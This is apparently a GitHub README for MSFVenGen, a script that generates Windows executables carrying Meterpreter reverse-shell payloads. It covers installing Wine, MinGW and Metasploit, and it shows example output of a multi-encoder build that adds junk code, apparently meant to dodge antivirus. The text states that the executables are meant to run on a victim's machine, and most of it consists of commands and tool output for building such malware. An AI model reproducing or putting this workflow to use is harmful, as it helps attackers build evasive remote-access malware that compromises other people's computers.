 # MSFVenGen

MSFVenGen - Custom MSFVenom Executable Generator

### Requirements

- Linux
- Wine + MinGW
- Metasploit Framework

### Installing

##### Install Wine

Wine allows windows applications to be run on several platforms such as Linux, Mac OS X and more.

To install Wine just run this command:

    sudo apt-get install wine

##### Install MinGW

MinGW is a collection of windows development tools including compilers such as GCC and G++. Using both MiniGW and Wine it is possible to compile windows code thus creating a portable executable (pe) which can be later run on a victim's machine.

- Go to [SourceForge](http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download) to download the installer.
- In a terminal use `wine /path/to/file/mingw-get-setup.exe`
- Select "Run with GUI" option

Note that you must have the GUI up in order to get the installer to run properly. You can run it in a terminal however it draws a GUI box for installation.

- When the window appears, make sure to select mingw32-base. This is required to continue and make things work properly. Select Installation and click Update Catalogue.
- You want to get the right DLLs to be able to compile properly. You can find them here: [Go Jhonny!](http://gojhonny.com/misc/mingw_bin.zip)
- Unzip them into your Windows directory in wine. Its location should be `/home/USERNAME/.wine/drive_c/windows`

Great! Now you can use gcc.exe!

Syntax:

    cd /home/USERNAME/.wine/drive_c/MinGW/bin
    wine gcc.exe -o file.exe sourcefile.c

##### Metasploit Framework

The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development.

Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine. Other important sub-projects include the Opcode Database, shellcode archive and related research.

The Metasploit Project is well known for its anti-forensic and evasion tools, some of which are built into the Metasploit Framework.

To install Metasploit Framework just run this command:

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall

### Usage

    ./msfvengen.sh

### Example output
    MSFVenGen - Custom MSFVenom Executable Generator
    
    LHOST?
    > 192.168.0.102
    LPORT?
    > 4444
    We will be using the windows/meterpreter/reverse_X payloads. Which would you like to use?
    > windows/meterpreter/reverse_tcp
    How many cycles we encode our shellcode? (1-20)
    > 1
    Number of random seed to add some junk to the resulting C code source file (1-10000):
    > 1
    
    Attempting to clean the ShellCode directory out...
    Attempting to generate shell-code...
    Attempting to read payload from STDIN...
    Attempting to read payload from STDIN...
    Attempting to read payload from STDIN...
    Attempting to read payload from STDIN...
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of generic/none
    generic/none succeeded with size 333 (iteration=0)
    generic/none chosen with final size 333
    Payload size: 333 bytes
    
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 360 (iteration=0)
    x86/shikata_ga_nai chosen with final size 360
    Payload size: 360 bytes
    
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/jmp_call_additive
    x86/jmp_call_additive succeeded with size 389 (iteration=0)
    x86/jmp_call_additive chosen with final size 389
    Payload size: 389 bytes
    
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/call4_dword_xor
    x86/call4_dword_xor succeeded with size 416 (iteration=0)
    x86/call4_dword_xor chosen with final size 416
    Payload size: 416 bytes
    
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 443 (iteration=0)
    x86/shikata_ga_nai chosen with final size 443
    Payload size: 443 bytes
    Final size of c file: 1886 bytes
    Saved as: /home/lonalore/msfvengen/ShellCode/test.c
    Shellcode generated.
    Cleaning it up...
    Creating Headers...
    Creating the first bit of fluff
    Creating the execution bit...
    Creating the last bit of fluff...
    Merging the last of it together...
    tcp-4444-826.exe SHA-1 Checksum is .. 088a3b485993622d450b534cead0ff5aa1701524 tcp-4444-826.exe
    
    Done!
